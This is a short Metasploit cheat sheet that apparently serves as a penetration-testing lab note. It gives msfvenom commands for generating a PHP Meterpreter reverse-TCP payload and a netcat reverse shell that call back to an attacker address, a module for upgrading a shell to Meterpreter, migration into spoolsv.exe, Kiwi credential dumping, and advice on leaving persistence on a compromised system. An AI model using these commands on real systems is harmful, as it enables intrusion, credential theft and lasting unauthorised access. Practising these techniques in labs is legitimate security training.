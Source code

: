 # Metasploit - Armitage(GUI)
[Man Page](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
### Search syntax
```
search type:exploit platform:windows flash
```
### Shell upgraded to Metasploit
```
post/multi/manage/shell_to_meterpreter
```
### Generate Venom payload with PHP for reverse shell
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.11.1.81 LPORT=4444 -f raw -o payload.php
```
### Generate Venom with cmd/Reverse and export as RAW file
```
msfvenom -p cmd/unix/reverse_netcat localhost=10.11.1.81 lport=4444 R
```
### Mitigate process for escalation
```
migrate -N spoolsv.exe
```
### Kiwi
load kiwi -> cred_all (User/password)  
getpriv -> check all priviledge access

### Persistent
After going through all the hard work of exploiting a system, it’s often a good idea to leave yourself an easier way back into the system for later use. - [More](https://www.offensive-security.com/metasploit-unleashed/meterpreter-service/)
